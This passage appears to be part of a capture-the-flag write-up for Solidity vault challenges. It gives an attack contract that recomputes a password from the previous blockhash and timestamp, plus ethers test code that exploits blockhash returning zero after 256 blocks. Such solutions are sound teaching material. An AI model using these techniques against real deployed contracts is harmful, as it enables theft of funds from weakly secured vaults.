 \documentclass[12pt]{article}
\begin{document}
\begin{lstlisting}[language=Solidity]
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

interface IVault04 {
    function breachVault(bytes32 _password) external returns (bool);
}

contract Vault04Attack {
    IVault04 public vault;

    constructor(address _vaultAddress) {
        vault = IVault04(_vaultAddress);
    }

    function attack() external returns (bool) {
        // Compute the password using on-chain values in the same transaction
        bytes32 password = keccak256(
            abi.encodePacked(blockhash(block.number - 1), block.timestamp)
        );

        // Call the breachVault function with the computed password
        return vault.breachVault(password);
    }
}
\end{lstlisting}

\noindent
Since the password is derived from predictable on-chain data and is used within the same transaction, the attack works by ensuring the \texttt{blockhash} and \texttt{timestamp} remain valid when the vault processes the request.

\subsection*{Vault05: Fortune Teller}

To breach \texttt{Vault05}, you need to use the \texttt{blockhash} of the block when the password was locked in, but only after the next block has been mined. First, you lock the password using \texttt{lockInPassword}. Then, you must wait for the next block and calculate the password using \texttt{blockhash(lockInBlockNumber)}. The issue is that at the moment of locking in the password, we do not know the blockhash yet. We can only access the blockhash of the previous blocks. However, since the \texttt{blockhash} function only returns the blockhash for the last 256 blocks, otherwise it returns zero (see \href{https://docs.soliditylang.org/en/latest/units-and-global-variables.html}{Solidity documentation}). Therefore, we simply lock in a zero hash and mine 256 blocks before calling \texttt{breachVault}  function.

\begin{verbatim}
// Lock the zero hash
await vault.connect(player).lockInPassword(ethers.ZeroHash);

// Mine 256 blocks
for (let i = 0; i < 256; i++) {
    await ethers.provider.send("evm_mine", []);
}

// Call breachVault()
await vault.connect(player).breachVault();
\end{verbatim}
\end{document}
